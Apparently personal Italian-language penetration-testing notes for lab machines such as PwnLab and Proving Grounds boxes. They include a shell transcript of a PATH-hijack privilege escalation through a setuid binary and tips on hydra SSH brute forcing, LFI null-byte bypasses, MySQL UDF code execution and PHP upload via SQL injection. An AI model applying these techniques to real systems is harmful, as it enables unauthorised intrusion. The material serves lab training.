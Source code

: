 
- Se non funziona con http, potrebbe esserci qualcosa in https

- Se vedi mysql con accesso di root, puoi provare adeseguire codice oppurelavuln nota di /usr/lib/lib_mysqludf_sys.so

- Se vedi eseguibili che chiamano altri eseguibili tipo cat, puoi provare a cambiare lavariabile di ambiente PATH per far eseguire il tuo comando cat


kane@pwnlab:~$ echo "/bin/bash" > cat
echo "/bin/bash" > cat
kane@pwnlab:~$ ls -la
ls -la
total 32
drwxr-x--- 2 kane kane 4096 Jun  1 08:16 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rw-rw-rw- 1 kane kane   10 Jun  1 08:16 cat
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ chmod 777 cat
chmod 777 cat
kane@pwnlab:~$ export PATH=/home/kane:$PATH
export PATH=/home/kane:$PATH
kane@pwnlab:~$ ./msgmike
./msgmike
mike@pwnlab:~$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)



- Se ho una password e una lista di utenti posso provare ad eseguire hydra e vedere se qualche utente in ssh ha quella password :D
- Oppure se ho una lista di utenti posso provare ad eseguire hydra con user e password con la lista di utenti (magari si trova che qualche utente ha come password l'utente)

- Se hai la porta aperta di smb, esegui enum4linux

- Se hai ftp, prova a fare upload

- Se hai parametri nell'url, pova LFI


- Privilege Escalation Linux -> checklist https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist


- Metti che un brute force ci mette tanto (per esempio un login di wordpress) prova ad invertire la wordlist (se questa wordlist è stata trovata da una directory della web app della macchina per esempio) [tipo Mr Robot di Vulnhub]

- Se vedi i processi (magari tramite snmp) cerca se ci sono vulnerabilità note

- bash -i se non c'è python e hai bisogno di avere una shell un po' più "shell"

- Se ci sono script che potrebbero funzionare, prova varie porte per il listening per fare RCE


- Cerca di pensare semplice 
- Se hai gli utenti da /etc/passwd puoi provare a usare l'username come password

- Se dopo un'ora non trovi un modo per fare privilege escalation, forse è più semplice di quello che sembra

- Se LFI non funziona con un path (magari nemmeno con le tecniche per bypassare tipo %00), magari ce n'è un altro che non hai visto
- LFI:

- Se è con include $install_dir in cui install_dir viene preso come parametro dall'url, potrebbe non funzionare:

www-data@payday:/tmp$ cat /var/www/core/install.php 
cat /var/www/core/install.php 
<?php

//
// $Id: install.php 1468 2006-03-20 09:43:47Z
//

include $install_dir.'/prepare.php';


- Se invece c'è require_once, è possibile che funzioni con %00

$ cat class.cs_phpmailer.php
<?php

global $classes_dir;
require_once($classes_dir . 'phpmailer' .DS. 'class.phpmailer.php');


- In windows vedi in "Program Files" e "Program Files (x86)" se ci sono programmi strani tipo "PaperStream IP" (come nella macchina Jacko di Proving Grounds)

- Powershell sta dentro:
C:\Windows\System32\WindowsPowerShell>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC2F-6399

 Directory of C:\Windows\System32\WindowsPowerShell

03/18/2019  09:52 PM    <DIR>          .
03/18/2019  09:52 PM    <DIR>          ..
03/18/2019  11:20 PM    <DIR>          v1.0
               0 File(s)              0 bytes
               3 Dir(s)   6,892,978,176 bytes free


- CONROLLA TUTTE LE PORTE DI NMAP!!!!!!!!!

- Se hai una SQLi puoi provare a caricargli uno script php (vedi sezione SQLi del file machine oppure appunti della macchina Medjed di Proving Grounds)

- Se hai le credenziali SSH, puoi uploadare i dile con scp

- Prova sia get sia post